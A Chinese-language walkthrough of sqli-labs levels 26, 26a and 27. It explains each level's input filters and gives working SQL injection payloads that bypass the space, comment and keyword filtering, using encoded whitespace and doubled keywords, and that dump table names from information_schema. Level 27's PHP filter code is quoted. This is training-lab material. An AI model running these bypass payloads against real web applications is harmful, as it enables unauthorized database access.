 
![52](/medias/sqli-labs/52.png)

## Less-26

题目名称提示过滤了空格、注释、以及前面的`or`、`and`

因为是get传参，还可以使用`%09`、`%0a`、`%0b`、`%0c`、`%0d`、`%a0`绕过

我测，通过报错发现这里的sql语句`'1'' LIMIT 0,1`，是单引号包裹的id


发现这题可以用`$0b`，`%a0`替换空格

```sql
?id=0'union%0bselect%0b1,2,'3
```

爆表，注意单词`information_schema`里有个`or`，也要双写

```sql
?id=0'union%0bselect%0b1,(select%0bgroup_concat(table_name)%0bfrom%0binfoorrmation_schema.tables%0bwhere%0btable_schema=database()),'3
```

## Less-26a

相比上关，添加了`()`包裹`id`，因为不能使用注释符，所以需要考虑闭合后，后面的`')`怎么处理


也好处理，可以`select 1,2,('3')`的形式，闭合后面的`')`，避免语法错误无法执行

```sql
?id=0')union%0bselect%0b1,(select%0bgroup_concat(table_name)%0bfrom%0binfoorrmation_schema.tables%0bwhere%0btable_schema=database()),('3
```

![53](/medias/sqli-labs/53.png)

## Less-27

过滤语句，过滤空格、注释符、union、select等，把or、and放出来了

```php
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/select/m',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/union/s',"", $id);
$id= preg_replace('/select/s',"", $id);
$id= preg_replace('/UNION/s',"", $id);
$id= preg_replace('/SELECT/s',"", $id);
$id= preg_replace('/Union/s',"", $id);
$id= preg_replace('/Select/s',"", $id);
```
